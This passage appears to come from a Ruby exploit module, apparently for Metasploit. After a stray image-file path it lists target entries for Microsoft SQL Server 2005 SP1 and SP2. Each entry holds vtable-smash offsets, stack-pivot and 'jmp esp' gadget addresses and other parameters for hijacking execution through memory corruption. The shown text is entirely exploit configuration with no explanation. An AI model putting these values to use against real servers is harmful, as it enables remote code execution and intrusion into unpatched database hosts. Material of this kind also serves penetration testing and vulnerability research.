                   'Popped'   => 0x4,         # byte count popped in above (before ret)
                  'Offset'   => 0x20,        # offset to the new stack!
                  'FixESP'   => 0x0147deb7,  # advance esp to next ret (add esp,0x10 / ret)
                  'Ret'      => 0x0112c2c7   # jmp esp
                },
              ],

              [
                # Microsoft SQL Server 2005 - 9.00.2047.00 (Intel X86)
                # Apr 14 2006 01:12:25
                'MSSQL 2005 SP1 (9.00.2047.00)',
                {
                  'Num'      => 32,          # value for "start_offset"
                  'VtOff'    => 63,          # offset from 'Num' to smashed vtable ptr
                  'VtDisp'   => 0x10,        # displacement from mov eax,[edx+0x10] / call eax crash
                  'Writable' => 0x53ad5330,  # any writable addr (not even necessary really)
                  'Vtable'   => 0x0244c803,  # becomes eax for [eax+0x38] (must be valid to exec)
                  'FixDisp'  => 0x17139e9,   # not directly used - call [ecx+0x14]
                  'Disp'     => 0x52,        # displacement on call [ecx+disp] used
                  'ecx2esp'  => 0x0183bf9c,  # push ecx / pop esp / pop ebp / ret
                  'Popped'   => 0x4,         # byte count popped in above (before ret)
                  'Offset'   => 0x20,        # offset to the new stack!
                  'FixESP'   => 0x014923c1,  # advance esp to next ret (add esp,0x10 / ret)
                  'Ret'      => 0x011b204c   # jmp esp
                },
              ],

              [
                # Microsoft SQL Server 2005 - 9.00.3042.00 (Intel X86)
                # Feb  9 2007 22:47:07
                'MSSQL 2005 SP2 (9.00.3042.00)',
                {
                  'Num'      => 32,          # value for "start_offset"
                  'VtOff'    => 63,          # offset from 'Num' to smashed vtable ptr
                  'VtDisp'   => 0x10,        # displacement from mov eax,[edx+0x10] / call eax crash
                  'Writable' => 0x53ad5330,  # any writable addr (not even necessary really)
                  'Vtable'   => 0x027fca52,  # becomes eax for [eax+0x38] (must be valid to exec)
                  'FixDisp'  => 0x1106d6b,   # not directly used - call [ecx+0x14]
                  'Disp'     => 0x52,        # displacement on call [ecx+disp] used
                  'ecx2esp'  => 0x01849641,  # push ecx / pop esp / pop ebp / ret
                  'Popped'   => 0x4,         # byte count popped in above (before ret)
                  'Offset'   => 0x20,        # offset to the new stack!
                  'FixESP'   => 0x01498b22,  # advance esp to next ret (add esp,0x10 / ret)
                  'Ret'      => 0x010a5379   # jmp esp
                },
              ],
